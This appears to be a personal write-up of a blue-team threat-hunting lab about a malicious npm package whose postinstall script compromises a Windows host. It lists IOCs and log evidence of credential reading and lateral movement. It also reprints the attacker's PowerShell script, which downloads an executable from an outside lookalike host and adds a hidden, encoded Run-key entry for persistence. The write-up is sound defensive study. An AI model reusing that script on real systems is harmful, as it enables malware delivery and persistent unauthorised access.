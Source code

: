 ```yaml
---
{"dg-publish":true,"permalink":"/simmering/health-hazard-threat-hunting/","tags":["blue-team"]}
---
```


~ [[input\|input]]

# Health Hazard

### Briefing

After months of juggling content calendars and caffeine-fueled brainstorming, co-founder Tom Whiskers finally carved out time to build the company’s first website. It was supposed to be simple: follow a tutorial, install a few packages, and bring the brand to life with lightweight JavaScript magic.

But between sleepless nights and copy-pasted code, Tom started feeling off. Not sick exactly, just off. The terminal scrolled with reassuring green text, the site loaded fine, and everything looked normal.

But no one really knows what might have been hidden beneath it all…

It just waited.

### Hypothesis

An attacker may have leveraged a compromised third-party software package to gain initial access to the system and silently stage a payload for later execution. They likely established persistence to maintain access without immediate detection.

### Threat Hunting Mission
---

Your task as a Threat Hunter is to conduct a comprehensive hunting session in the TryGovMe environment to identify potential anomalies and threats. You are expected to:

**1. Validate a Hunting Hypothesis**

Investigate the given hypothesis and determine - based on your findings - whether it is valid or not.

**2. Review IOCs from External Sources**

Analyse the list of Indicators of Compromise provided by security teams from compromised partner organisations. These may lead you to uncover additional malicious activity or pivot points.

**3. Reconstruct the Attack Chain**

Perform a detailed investigation within the environment and reconstruct the attack chain, starting from the initial point of compromise to the attacker's final objective.

**4. Determine the Scope of the Incident**

Identify the impacted users, systems, and assets. Understanding the full scope is critical for response and containment.

**5. Generate a Final Threat Hunting Report**

Based on your findings and the reconstructed attack chain, compile a final Threat Hunting report highlighting the key observations and affected entities.

---

## Host-Based IOCs

| **Type**             | **Value**                                                |
| -------------------- | -------------------------------------------------------- |
| NPM Package          | `healthchk-lib@1.0.1`                                    |
| Registry Path        | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`     |
| Registry Value Name  | `Windows Update Monitor`                                 |
| Registry Value Data  | `powershell.exe -NoP -W Hidden -EncodedCommand <base64>` |
| Downloaded File Path | `%APPDATA%\SystemHealthUpdater.exe`                      |
| PowerShell Command   | `Invoke-WebRequest -Uri ... -OutFile ...`                |
| Process Execution    | `powershell.exe -NoP -W Hidden -EncodedCommand ...`      |
| Script Artifact      | Found in `package.json` under `"postinstall"`            |

## Network-Based IOCs

| **Type**           | **Value**                                                  |
| ------------------ | ---------------------------------------------------------- |
| Download URL       | `http://global-update.wlndows.thm/SystemHealthUpdater.exe` |
| Hostname Contacted | `global-update.wlndows.thm`                                |
| Protocol           | HTTP (unencrypted)                                         |
| Port               | 80                                                         |
| Traffic Behavior   | Outbound file download to `%APPDATA%` via PowerShell       |

External sources proves that right after installation of npm packages, it makes a request to 'global-update.wlndows.thm' to download a malicious executable and this executable is added to the Run registry for persistence mechanism:

 timestamp: 21/06/2025 10:58:27.000
```C
$dest = "$env:APPDATA\SystemHealthUpdater.exe"
$url = "http://global-update.wlndows.thm/SystemHealthUpdater.exe"

# Download file
Invoke-WebRequest -Uri $url -OutFile $dest

# Base64 encode the command
$encoded = [Convert]::ToBase64String(
    [Text.Encoding]::Unicode.GetBytes("Start-Process '$dest'")
)

# Build persistence command
$runCmd = 'powershell.exe -NoP -W Hidden -EncodedCommand ' + $encoded

# Add to registry for persistence
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' `
    -Name 'Windows Update Monitor' -Value $runCmd
```

Filtering for `npm`, we can also see the malicious package being installed:

timestamp: 21/06/2025 10:58:24.000
```C
"C:\Program Files\nodejs\node.exe" "C:\Program Files\nodejs/node_modules/npm/bin/npm-cli.js" install healthchk-lib@1.0.1
```

Based on analysis and ParentCommandLine, the malicious npm package installation goes first then the installation of SystemHealthUpdater.exe comes next.


It looks like this is the user responsible for installing this packages

```C
ParentUser: PAW-TOM\itadmin-tom
```

With computer name of : ComputerName: paw-tom

```
TargetFilename: C:\Development\node_modules\healthchk-lib\scripts\postinstall.ps1
```

Then there is evidence that the user tom read credentials from the credentials manager:

```C
Account_Domain: PAW-TABITHA  
   Account_Name: itadmin-tom  
   ComputerName: paw-tabitha  
   Error_Code: -  
   EventCode: 5379  
   EventType: 0  
   Keywords: Audit Success  
   LogName: Security  
   Logon_ID: 0x6A7BB  
   Message: Credential Manager credentials were read. Subject: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Read Operation: Enumerate Credentials
```

From computername: paw-tabitha there were signs of host enumeration indicating a successful lateral movement:

```C
C:\Windows\system32\cmd.exe /c C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

wmic OS get OperatingSystemSKU /format:list

powershell "Get-CimInstance Win32_PnPEntity | Where-Object { $_.Service -eq 'xenvbd' } | Select-Object DeviceID | ConvertTo-Json -Depth 3"

powershell "Get-ItemProperty -Path 'HKLM:\SOFTWARE\Amazon\PVDriver' | Select-Object Name, Version | ConvertTo-Json -Depth 3"

taskhostw.exe SYSTEM

powershell "Get-CimInstance Win32_OperatingSystem | Select-Object Version, OperatingSystemSKU | ConvertTo-Json -Depth 3"
```

  timestamp: 21/06/2025 10:53:04.000



* ComputerName="paw-tabitha" app="win:remote"

```C
Logon_Type: 10 Message: An account was successfully logged on. Subject: Security ID: S-1-5-18 Account Name: PAW-TABITHA$ Account Domain: WORKGROUP Logon ID: 0x3E7 Logon Information: Logon Type: 10 Restricted Admin Mode: No Virtual Account: No Elevated Token: Yes Impersonation Level: Impersonation New Logon: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Linked Logon ID: 0x0 Network Account Name: - Network Account Domain: - Logon GUID: {00000000-0000-0000-0000-000000000000} Process Information: Process ID: 0x554 Process Name: C:\Windows\System32\svchost.exe Network Information: Workstation Name: PAW-TABITHA Source Network Address: 194.50.16.198 Source Port: 0 Detailed Authentication Information: Logon Process: User32 Authentication Package: Negotiate Transited Services: - Package Name (NTLM only): - Key Length: 0 This event is generated when a logon session is created. It is generated on the computer that was accessed. The subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe. The logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network). The New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on. The network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases. The impersonation level field indicates the extent to which a process in the logon session can impersonate. The authentication information fields provide detailed information about this specific logon request. - Logon GUID is a unique identifier that can be used to correlate this event with a KDC event. - Transited services indicate which intermediate services have participated in this logon request. - Package name indicates which sub-protocol was used among the NTLM protocols. - Key length indicates the length of the generated session key. This will be 0 if no session key was requested
```